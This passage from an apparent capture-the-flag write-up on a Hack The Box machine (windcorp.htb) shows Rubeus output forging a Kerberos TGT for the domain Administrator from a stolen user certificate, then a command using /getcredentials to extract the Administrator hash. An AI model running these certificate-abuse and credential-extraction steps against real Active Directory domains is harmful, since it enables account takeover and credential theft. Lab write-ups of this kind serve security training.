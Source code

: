 ```
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.0 

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Diego Cruz, OU=MainOffice, DC=windcorp, DC=htb 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'windcorp.htb\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

  ServiceName           :  krbtgt/windcorp.htb
  ServiceRealm          :  WINDCORP.HTB
  UserName              :  Administrator
  UserRealm             :  WINDCORP.HTB
  StartTime             :  3/14/2022 4:32:33 PM
  EndTime               :  3/15/2022 2:32:33 AM
  RenewTill             :  3/21/2022 4:32:33 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  Vcb75RD6BBBAkFnduOhtEQ==
```
So we've got TGT... we can now get `Administrator` hash
```
PS C:\Windows\Tasks> .\Rubeus3.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2 

[*] Action: Ask TGT
```